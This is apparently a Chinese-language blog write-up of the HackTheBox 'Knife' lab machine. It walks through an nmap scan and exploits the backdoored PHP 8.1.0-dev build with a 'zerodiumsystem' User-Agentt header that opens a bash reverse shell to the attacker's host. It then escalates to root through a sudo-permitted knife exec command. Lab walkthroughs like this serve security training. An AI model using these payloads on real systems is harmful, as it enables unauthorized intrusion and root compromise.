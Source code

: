# HackTheBox Knife

  
  
&lt;!--more--&gt;  
使用`nmap`进行扫描  
```bash  
sudo nmap --min-rate 10000 -sS -Pn -sV 10.129.211.145  
  
Nmap scan report for 10.129.211.145  
Host is up (0.15s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT   STATE    SERVICE VERSION  
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
53/tcp filtered domain  
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds  
```  
开启了`22`端口和`80`端口，访问`80`端口  
在其返回包看到`PHP`版本信息  
```http  
HTTP/1.1 200 OK  
Date: Sat, 13 Apr 2024 10:07:00 GMT  
Server: Apache/2.4.41 (Ubuntu)  
X-Powered-By: PHP/8.1.0-dev  
Vary: Accept-Encoding  
Content-Length: 5815  
Connection: close  
Content-Type: text/html; charset=UTF-8  
```  
此版本是存在后门，可以直接进行`RCE`  
直接反弹一个`shell`到本地  
`User-Agentt:zerodiumsystem(&#34;/bin/bash -c &#39;bash -i &gt;&amp; /dev/tcp/10.10.16.4/8888 0&gt;&amp;1&#39;&#34;);`  
获得`user.txt`的`flag`  
```bash  
james@knife:~$ cat user.txt  
cat user.txt  
8f76f62dae4f23ad7c61094fff67a86d  
```  
继续进行提权  
`sudo -l`进行查看`james`用户的权限  
```bash  
Matching Defaults entries for james on knife:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User james may run the following commands on knife:  
    (root) NOPASSWD: /usr/bin/knife  
```  
可以无需密码以`root`权限执行`/usr/bin/knife`命令  
利用`python`获取一个交互式`shell`  
`python3 -c &#34;__import__(&#39;pty&#39;).spawn(&#39;/bin/bash&#39;)&#34;`  
利用`knife`进行提权  
`sudo /usr/bin/knife exec -E &#39;exec &#34;/bin/sh&#34;&#39;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131823505.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-knife/  

